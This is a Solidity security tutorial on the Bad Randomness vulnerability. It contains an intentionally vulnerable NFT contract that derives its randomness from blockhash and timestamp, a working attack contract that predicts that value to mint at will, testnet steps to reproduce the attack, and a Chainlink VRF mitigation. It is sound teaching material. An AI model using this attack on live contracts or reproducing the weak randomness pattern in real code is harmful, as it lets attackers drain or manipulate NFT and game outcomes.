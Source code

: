 ```yaml
---
title: S07. Bad Randomness
tags:
  - solidity
  - security
  - random
---
```


# WTF Solidity S07. Bad Randomness

Recently, I have been revisiting Solidity, consolidating the finer details, and writing "WTF Solidity" tutorials for newbies. 

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy_](https://twitter.com/WTFAcademy_)

Community: [Discord](https://discord.gg/5akcruXrsk)｜[Wechat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[Website wtf.academy](https://wtf.academy)

Codes and tutorials are open source on GitHub: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

English translations by: [@to_22X](https://twitter.com/to_22X)

-----

In this lesson, we will discuss the Bad Randomness vulnerability in smart contracts and methods to prevent. This vulnerability is commonly found in NFT and GameFi projects, including Meebits, Loots, Wolf Game, etc.

## Pseudorandom Numbers

Many applications on Ethereum require the use of random numbers, such as randomly assigning `tokenId` for NFTs, opening loot boxes, and determining outcomes in GameFi battles. However, due to the transparency and determinism of all data on Ethereum, it does not provide a built-in method for generating random numbers like other programming languages do with `random()`. As a result, many projects have to rely on on-chain pseudorandom number generation methods, such as `blockhash()` and `keccak256()`.

Bad Randomness vulnerability: Attackers can pre-calculate the results of these pseudorandom numbers, allowing them to achieve their desired outcomes, such as minting any rare NFT they want instead of a random selection. For more information, you can read [WTF Solidity 39: Pseudo-random Numbers](https://github.com/AmazingAng/WTF-Solidity/tree/main/39_Random).

![](./img/S07-1.png)

## Bad Randomness Example

Now let's learn about an NFT contract with the Bad Randomness vulnerability: BadRandomness.sol.

```solidity
contract BadRandomness is ERC721 {
    uint256 totalSupply;

    // Constructor, initializes the name and symbol of the NFT collection
    constructor() ERC721("", ""){}

    // Mint function: can only mint when the input luckyNumber is equal to the random number
    function luckyMint(uint256 luckyNumber) external {
        uint256 randomNumber = uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))) % 100; // get bad random number
        require(randomNumber == luckyNumber, "Better luck next time!");

        _mint(msg.sender, totalSupply); // mint
        totalSupply++;
    }
}
```

It has a main minting function called `luckyMint()`, where users input a number between `0-99`. If the input number matches the pseudorandom number `randomNumber` generated on the blockchain, the user can mint a lucky NFT. The pseudorandom number is claimed to be generated using `blockhash` and `block.timestamp`. The vulnerability lies in the fact that users can perfectly predict the generated random number and mint NFTs.

Now let's write an attack contract called `Attack.sol`.

```solidity
contract Attack {
    function attackMint(BadRandomness nftAddr) external {
        // Pre-calculate the random number
        uint256 luckyNumber = uint256(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        ) % 100;
        // Attack using the luckyNumber
        nftAddr.luckyMint(luckyNumber);
    }
}
```

The parameter in the attack function `attackMint()` is the address of the `BadRandomness` contract. In it, we calculate the random number `luckyNumber` and pass it as a parameter to the `luckyMint()` function to complete the attack. Since `attackMint()` and `luckyMint()` are called in the same block, the `blockhash` and `block.timestamp` are the same, resulting in the same random number generated using them.

## Reproduce on `Remix`

Since the Remix VM does not support the `blockhash` function, you need to deploy the contract to an Ethereum testnet for reproduction.

1. Deploy the `BadRandomness` contract.

2. Deploy the `Attack` contract.

3. Pass the address of the `BadRandomness` contract as a parameter to the `attackMint()` function of the `Attack` contract and call it to complete the attack.

4. Call the `balanceOf` function of the `BadRandomness` contract to check the NFT balance of the `Attack` contract and confirm the success of the attack.

## How to Prevent

To prevent such vulnerabilities, we often use off-chain random numbers provided by Oracle projects, such as Chainlink VRF. These random numbers are generated off-chain and then uploaded to the blockchain, ensuring that the numbers are unpredictable. For more information, you can read [WTF Solidity 39: Pseudo-random Numbers](https://github.com/AmazingAng/WTF-Solidity/tree/main/39_Random).

## Summary

In this lesson, we introduced the Bad Randomness vulnerability and discussed a simple method to prevent it: using off-chain random numbers provided by Oracle projects. NFT and GameFi projects should avoid using on-chain pseudorandom numbers for lotteries to prevent exploitation by hackers.

